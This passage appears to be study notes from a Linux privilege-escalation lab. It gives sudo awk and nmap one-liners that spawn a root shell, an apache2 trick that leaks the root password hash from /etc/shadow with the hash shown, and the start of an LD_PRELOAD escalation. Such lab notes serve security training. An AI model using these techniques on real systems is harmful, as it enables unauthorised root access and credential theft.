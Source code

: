 ``` bash
$ sudo awk 'BEGIN {system("/bin/sh")}'
$ echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse
```

## Escalation via Intended Functionality
Sometimes there is no need for an exploit since some command have intended functionality in a way it was not intended

Looking at what can be run as sudo again
``` bash
$ sudo -l
Matching Defaults entries for TCM on this host:
    env_reset, env_keep+=LD_PRELOAD

User TCM may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
```
searching for apache on GTFObins give no result... But googling a bit shows that apache have a build in way to read system files `sudo apache2 -f /etc/shadow`

Trying it out gives this result
```
$ sudo apache2 -f /etc/shadow
Syntax error on line 1 of /etc/shadow:
Invalid command 'root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration
```
An error, but we still get the hash for root!

## Escalation via LD_PRELOAD
Looking again at the `sudo -l` command shows that the user can use *LD_PRELOAD* command.  
This is a way of preload a lib before the acctual command runs
``` bash
$ sudo -l
Matching Defaults entries for TCM on this host:
    env_reset, env_keep+=LD_PRELOAD

User TCM may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
```
``` bash
$ vi ld_preload_shell.c
enter the following content
```